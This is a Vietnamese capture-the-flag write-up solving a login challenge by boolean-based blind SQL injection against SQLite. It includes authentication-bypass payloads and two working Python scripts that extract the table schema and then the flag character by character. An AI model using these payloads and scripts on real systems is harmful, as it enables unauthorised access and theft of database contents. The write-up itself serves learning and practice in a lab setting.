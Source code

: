 # Overview
1. Khi ta dùng `username=guest&passwd=guest` thì sẽ output ra cho ta là: `Nothing special here. Maybe an admin account will work?`
2. Khi ta inject: `username=admin'+or+'1'='1&passwd=guest` thì nó vẫn hiện ra output tương tự như trên.
3. Khi ta inject: `username=admin'--&passwd=guest` thì nó output là: `Well done login as admin, but the flag is in another castle`
4. còn nếu inject username sai thì nó sẽ output: `Wrong username or password. Are you a hackẻ?`
=> Bài này sẽ rẽ theo hướng Boolean Base SQLi, vì nó chỉ output ra cho ta kết quả đúng hoặc sai thôi.
Bài này theo hướng error base sẽ hay hơn vì nó hiện error cho chúng ta khi query lỗi. Nhưng mình chọn Boolean Base cho dễ.
# Solution
1. Table này có 2 cột. 
`username=admin'+order+by+2--&passwd=guest`
Và để ý, khi mình `order by 3` nó sẽ output ra lỗi của SQLite.
2. Giờ mình sẽ lấy câu query trong SQLite.
```python
import requests
from string import printable
url = 'http://61.28.237.24:30100/'

sql = ''

for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t\t\t\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(sql,{i},1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 1) = char({j}) --",
            "passwd": "guest"
        })
        if "Nothing" in resp.text:
            sql += chr(j)
            print(f"query = {sql}")
            break
```
Vì đề có 2 table nên mình sẽ chỉ lấy câu sql của table flag thôi.

![image](https://user-images.githubusercontent.com/46492646/119289912-be031280-bc75-11eb-9508-a71b3118e088.png)

Có table, column rồi thì lấy flag ra thôi.
```python
import requests
from string import printable
url = 'http://61.28.237.24:30100/'

sql = 'CREATE TABLE flagtablewithrandomname(flag)'
flag = ''

for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t\t\t\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"query = {flag}")
            break
```

![image](https://user-images.githubusercontent.com/46492646/119290229-5600fc00-bc76-11eb-9819-edededa8c949.png)

